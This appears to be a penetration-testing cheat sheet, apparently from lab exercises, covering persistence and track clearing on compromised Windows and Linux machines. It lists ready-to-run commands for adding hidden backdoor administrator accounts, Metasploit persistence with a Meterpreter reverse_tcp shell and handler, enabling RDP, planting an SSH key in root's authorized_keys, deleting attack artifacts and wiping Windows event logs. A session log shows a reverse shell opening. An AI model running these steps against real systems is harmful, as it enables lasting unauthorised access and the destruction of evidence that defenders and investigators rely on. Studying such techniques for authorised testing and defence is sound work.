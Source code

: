 

### [PERSISTENCE](#)

###### Persistence by RDP (GUI based access) or WinRM (CLI based access)
- Requirements: We need either RDP (3389) or Winrm (5985) port open on target

    - First we create the account itself
        - `net user USERNAME PASSWORD /add`

    - Next we add our newly created account in the "Administrators" and "Remote Management Users" groups
        - `net localgroup Administrators USERNAME /add`
        - `net localgroup "Remote Management Users" USERNAME /add`

    - We can now check user details once

    - we can now winrm or rdp into machine
        - `evil-winrm -i '10.200.141.150' -u 'sam' -p 'Cayde@123'`
        

- Establish Persistence using metasploit module
    - `use exploit/windows/local/persistence_service` > `set payload windows/meterpreter/reverse_tcp` > `set SESSION 1` > `run`
    - Get back access to target by specifying same LHOST and LPORT
        - `use multi/handler` > `set payload windows/meterpreter/reverse_tcp` > `set LHOST 10.10.12.2` > `exploit`

- Establish Persistence by Enabling RDP by metasploit module
    - `use windows/manage/enable_rdp` > ` set SESSION 1` > `exploit`
        - we need to get access to RDP, for wchich we require credentials
            - we can change user password (not recommended)
                - `shell` > `net user Administrator password_123`
                - `xfreerdp /u:administrator /p:password_123 /v:10.5.28.9`
            - we will create a New backdoor user Account and we have the permission to do so as we are administrator, We will then also hider user from windows login screen, we then add the user to gruops Remote Desktop Users and Administrators
                - We can do all of this by a meterpreter command `getgui`
                - `run getgui -e -u user123 -p hacker_123321`


###### Persistence by Adding SSH Public key

1. Generate public and private keys using `ssh-keygen` on attacker machine
```
# it will ask you for passphrase, This will create both id_rsa and id_rsa.pub in ~/.ssh directory
ssh-keygen -t rsa -b 4096 
```
2. Copy the content in "id_rsa.pub" 
3. Now on target machine If the .ssh directory and authorized_keys file don’t exist, you will need to create them, this can be done by running the following commands
```
mkdir ~/.ssh
touch ~/.ssh/authorized_keys
```
4. Paste the contents of the public key you generated into the authorized_keys file.
5. It is also recommended to apply the necessary permissions to the .ssh directory and authorized_keys file, this can be done by running the following commands
```
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
 ```
6. you will now be able to authenticate to the target via SSH without providing a password
```
ssh -i id_rsa root@10.10.11.136
```


### [CLEARING TRACKS](#)

**Clearing artifacts using metasploit `Resource Scripts`**
```
msf6 exploit(windows/local/persistence_service) > `run`
[*] Started reverse TCP handler on 10.10.26.2:4444 
[*] Running module against ATTACKDEFENSE
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\vgdjb.exe
[*] Creating service spMjX
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/ATTACKDEFENSE_20240115.3442/ATTACKDEFENSE_20240115.3442.rc
[*] Sending stage (175174 bytes) to 10.5.31.225
[*] Meterpreter session 2 opened (10.10.26.2:4444 -> 10.5.31.225:49743) at 2024-01-15 17:34:43 +0530  
```
- We can delete the artificats created by metasploit module by Resource Scripts provided by it
    - `resource /root/.msf4/logs/persistence/ATTACKDEFENSE_20240115.3442/ATTACKDEFENSE_20240115.3442.rc`

**Clearing Windows Event Logs usng meterpreter**
- `clearev`